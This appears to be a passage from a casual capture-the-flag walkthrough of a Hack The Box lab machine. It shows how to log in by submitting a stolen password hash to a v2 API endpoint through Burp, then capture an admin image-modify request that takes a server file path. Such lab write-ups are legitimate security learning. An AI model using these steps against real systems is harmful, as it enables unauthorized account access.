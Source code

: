 lets try after send req to repeater and changing the v1 to v2:
```
{"email":"steve@intentions.htb","hash":"$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa"}
```
RES:
```
{"status":"success","name":"steve"}
```

nice!

im now logged in as steve... note you will want to intercept this req with burpsuite and modify req like above...
![[Pasted image 20250911224007.png]]

lets go to that /admin and see if it loads now...
![[Pasted image 20250911224040.png]]

yuppp

can modify images... 
![[Pasted image 20250911224142.png]]

actually kinda chill...

i check burpsuite and here is the req:
```
POST /api/v2/admin/image/modify HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: application/json
X-XSRF-TOKEN: eyJpdiI6IlhOdnEyeFBCdmNQN1N5cjNKeCtsL3c9PSIsInZhbHVlIjoiZXU4Zmx3QUQ5bVFXYUNtcWVyVHhWalJrZWNTbjNLcnpwbS9FcE14em10ejc5MkpaYWdDdVhJbE92OUJodGc3WTRIYkNhN1grTjNNT3Nzd2MyMTYwcHBRcGliS1dScWVjSkFZZVBpVmJsb3ZWcm9ybU8xVGk2Mko5Tjh0TEJjejEiLCJtYWMiOiJhODAyZjA4NDgzOTdlMWQxZTllMGY0MDUwNjU0M2QyNjRhNTQ0NjhkYjEyMWFmYWY4YzVhYWIxMmRjOWU1MzYxIiwidGFnIjoiIn0=
Content-Length: 113
Origin: http://10.10.11.220
Connection: keep-alive
Referer: http://10.10.11.220/admin
Cookie: XSRF-TOKEN=eyJpdiI6IlhOdnEyeFBCdmNQN1N5cjNKeCtsL3c9PSIsInZhbHVlIjoiZXU4Zmx3QUQ5bVFXYUNtcWVyVHhWalJrZWNTbjNLcnpwbS9FcE14em10ejc5MkpaYWdDdVhJbE92OUJodGc3WTRIYkNhN1grTjNNT3Nzd2MyMTYwcHBRcGliS1dScWVjSkFZZVBpVmJsb3ZWcm9ybU8xVGk2Mko5Tjh0TEJjejEiLCJtYWMiOiJhODAyZjA4NDgzOTdlMWQxZTllMGY0MDUwNjU0M2QyNjRhNTQ0NjhkYjEyMWFmYWY4YzVhYWIxMmRjOWU1MzYxIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IlJLWHp5cGNMZ2I0VWlDZHhmQlR6aXc9PSIsInZhbHVlIjoibGdob2pvdG41SkhxTndLdkdhZGVFTTYrRzdSNVhRT3pZTHRoOEF5UmNoU1l0ZG9UKzFOWjBhVk54bENwSGE4ZG0vek5PVkc2VUZ0NVJPZWtUcUtpSnVGeGQ4RXZmRkJqZ1FRNktyV1hFeFRpTnFUVUM1d0lIVGlWM2E4YjlDQ0wiLCJtYWMiOiJhZGU0YTgzZDdkNTg1NDE0Y2Q5ODk0ZTM0YWI4MTY4NGU1ZmM2NDcyZTMzYzVkZWVhYzcyMDdmNGZkOWU5ZGFmIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNzU3NjQ0NzgyLCJleHAiOjE3NTc2NjYzODIsIm5iZiI6MTc1NzY0NDc4MiwianRpIjoiaXE2TDFFM1VLYWRSZ2hIUiIsInN1YiI6IjEiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.UtM0OuBZAUue_rg5W-78B_bdKIXJOUt5rrHZGb8J6ys
Priority: u=0

{"path":"/var/www/html/intentions/storage/app/public/animals/ashlee-w-wv36v9TGNBw-unsplash.jpg","effect":"swirl"}
```
